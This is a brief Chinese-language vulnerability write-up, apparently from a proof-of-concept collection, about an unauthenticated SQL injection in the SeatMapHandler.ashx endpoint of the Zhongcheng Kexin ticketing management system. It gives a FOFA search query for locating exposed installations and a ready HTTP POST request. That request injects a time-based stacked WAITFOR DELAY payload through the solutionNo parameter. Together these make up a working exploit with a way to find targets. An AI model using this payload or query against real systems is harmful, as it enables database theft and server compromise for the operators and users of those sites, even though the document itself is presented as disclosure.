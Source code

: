 ## 中成科信票务管理系统SeatMapHandler.ashx存在SQL注入漏洞

中成科信票务管理系统 SeatMapHandler.ashx 接口处存在SQL注入漏洞复现，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## fofa

```yaml
body="技术支持：北京中成科信科技发展有限公司"
```

## poc

```java
POST /SystemManager/Comm/SeatMapHandler.ashx HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

Method=GetZoneInfo&solutionNo=1'%3bDECLARE+%40x+CHAR(9)%3bSET+%40x%3d0x
303a303a35%3bWAITFOR+DELAY+%40x--
```

